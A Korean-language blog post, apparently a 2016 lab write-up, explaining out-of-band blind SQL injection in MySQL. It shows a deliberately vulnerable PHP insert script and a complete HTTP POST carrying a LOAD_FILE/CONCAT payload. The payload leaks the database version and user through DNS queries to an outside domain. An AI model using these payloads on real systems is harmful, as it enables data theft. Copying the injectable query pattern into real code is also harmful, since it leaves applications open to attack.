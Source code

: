 ```yaml
---
layout: post
title:  "SQL Injection - Out of band"
description: SQL Injection - Out of band
headline:
modified: 2016-12-09
category: research
imagefeature:
mathjax:
chart:
comments: true
featured: true
---
```


## 서론
SQL Injection이 가능하지만 In band(Error based, Union)로는 결과를 확인 할 수 없을때, 그 외에 Boolean based, Time based로는 결과를 확인할 수 없거나 너무 느릴 때 OOB(Out of band) 기법을 사용합니다.

오래 전에 공개된 기법이기에 운영체제별, DBMS 종류별, 버전별로 공격이 불가능 할 수도 있습니다. 하지만 최근에 paypal에서 발생한 취약점 때문에 아직까지도 실효성이 있다고 판단했습니다.

> Paypal Bug bounty 2016 - Exploiting Blind SQLI using OOB technique - https://youtu.be/_i9u8O2ehlg

> DEFCON 15 - https://www.youtube.com/watch?v=QzZyFcjQ25Y

## Out of band
Out of band는 쿼리의 결과를 다른 외부 채널을 통해 전달하는 기법입니다. 예를들어 쿼리의 결과를 HTTP 패킷에 담아서 보내기도하고, DNS 서버에 질의를 보내게 하기도 합니다.

```SQL
SELECT LOAD_FILE(CONCAT('\\\\',(select @@version),'.nisambot.com\\test'));
-- 5.5.11.nisambot.com을 DNS 서버에 질의를 함
```
> DNS를 이용한 OOB 예시 - mysql

## MYSQL DNS OOB - PoC

![main.PNG]({{ site.url }}/assets/image/2016-12-09/main.png)

공격 대상이 되는 서버의 웹페이지 입력폼입니다.

> 공격 대상 서버 환경 Windows xp sp3, apache 2.4.9, mysql 5.5.36, PHP Version 5.4.27

<br />

```php
<?php
// insert.php

$conn = mysqli_connect("localhost", "***", "***", "***");

$query = "INSERT INTO contact (email, subject, message) VALUES ('".$_POST['email']."', '".$_POST['subject']."', '".$_POST['message']."');"; // SQLI 발생

mysqli_query($conn, $query);

?>
```
유저의 입력값이 삽입되어 SQLI가 발생하는 파일입니다. 응답값 없이 INSERT 구문만 처리합니다.

<br />

```mysql
mysql> desc contact;
+---------+---------------------+------+-----+---------+----------------+
| Field   | Type                | Null | Key | Default | Extra          |
+---------+---------------------+------+-----+---------+----------------+
| no      | bigint(20) unsigned | NO   | PRI | NULL    | auto_increment |
| email   | varchar(100)        | YES  |     | NULL    |                |
| subject | varchar(300)        | YES  |     | NULL    |                |
| message | varchar(300)        | YES  |     | NULL    |                |
+---------+---------------------+------+-----+---------+----------------+
```
TABLE 구조입니다.

<br />

```HTTP
POST http://192.168.2.3/insert.php HTTP/1.1
Host: 192.168.2.3
Connection: keep-alive
Content-Length: 133
Cache-Control: max-age=0
Origin: http://192.168.2.3
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://192.168.2.3/
Accept-Encoding: gzip, deflate
Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

email=asdf&subject='%2C+(SELECT+LOAD_FILE(CONCAT('%5C%5C%5C%5C'%2C(select+user())%2C'.nisambot.com%5C%5Ctest'))))%3B+--+&message=asdf
```
SQLI에 취약한 파라미터에 쿼리문을 작성해서 전송합니다.

<br />

```SQL
INSERT INTO contact (email, subject, message) VALUES ('asdf', '', (SELECT LOAD_FILE(CONCAT('\\\\',(select user()),'.nisambot.com\\test')))); -- ', 'asdf');
```
최종적으로 서버 완성되는 쿼리입니다.

<br />

![dns질의.PNG]({{ site.url }}/assets/image/2016-12-09/dns_query.png)

쿼리가 실행되는 서버에서 캡처한 패킷입니다.

user() 함수의 반환값인 root@localhost를 문자열과 합쳐 DNS서버에 질의하게 됩니다. (특수문자 같은것이 포함되므로 hex값으로 바꿔서 보내는것이 좋음)

DNS 서버를 구축하여 DNS 질의를 받아본다면 공격자 서버에서도 같은 결과를 받아볼 수 있습니다.